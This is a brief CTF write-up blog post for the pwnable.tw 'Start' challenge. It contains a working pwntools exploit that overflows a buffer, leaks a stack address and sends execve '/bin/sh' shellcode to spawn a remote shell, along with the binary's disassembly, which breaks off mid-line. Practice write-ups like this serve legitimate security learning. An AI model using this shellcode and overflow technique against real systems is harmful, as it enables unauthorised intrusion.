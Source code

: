 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()
{% endhighlight %}


{% highlight intel-assembly linenos %}
.text:08048060 push    esp
.text:08048061 push    offset _exit
.text:08048066 xor     eax, eax                        ; Logical Exclusive OR
.text:08048068 xor     ebx, ebx                        ; Logical Exclusive OR
.text:0804806A xor     ecx, ecx                        ; Logical Exclusive OR
.text:0804806C xor     edx, edx                        ; Logical Exclusive OR
.text:0804806E push    3A465443h
.text:08048073 push    20656874h
.text:08048078 push    20747261h
.text:0804807D push    74732073h
.text:08048082 push    2774654Ch
.text:08048087 mov     ecx, esp                        ; addr
.text:08048089 mov     dl, 14h                         ; len
.text:0804808B mov     bl, 1                           ; fd
.text:0804808D mov     al, 4
.text:0804808F int     80h                             ; LINUX - sys_write
.text:08048091 xor     ebx, ebx                        ; Logical Exclusive OR
.text:08048093 mov     dl, 3Ch
.text:08048095 mov     al, 3
.text:08048097 int     80h                             ; LINUX -

{% endhighlight %}







